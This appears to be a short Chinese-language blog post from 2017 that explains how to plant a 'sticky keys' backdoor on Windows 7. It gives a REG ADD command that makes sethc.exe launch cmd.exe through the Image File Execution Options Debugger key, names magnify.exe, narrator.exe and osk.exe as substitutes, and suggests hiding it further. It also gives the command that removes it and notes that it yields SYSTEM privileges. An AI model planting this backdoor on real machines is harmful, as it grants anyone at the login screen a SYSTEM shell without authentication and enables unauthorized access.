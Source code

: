 ```yaml
---
layout:     post
title:      win7粘滞键后门
date:       2017-08-03
summary:    win7粘滞键后门
categories: web
tags:
 - 后门
 - win7
---
```


### About

win03下copy命令可制作粘滞键后门,测试在win7上copy方法无效,本文记录win7下的方法


### Detail

以管理员身份打开cmd.exe运行如下:

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

其中sethc.exe可替换成magnify.exe(放大镜)或其他(eg.narrator.exe/osk.exe),替换成更隐藏的技巧可根据下面链接自由发挥


<a
href="https://answers.microsoft.com/en-us/windows/forum/windows_7-performance/run-command/a2632e97-c8d1-4ab3-8df2-7e70a4448267">AsULike</a>

删除后门以管理员身份打开cmd.exe运行如下即可:

```
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
```

以上理论上适用于win vistar以上系统,只在win7上测试过.

以上可由管理员权限得到system权限,也可用于替代psexec.exe -s cmd.exe开system权限
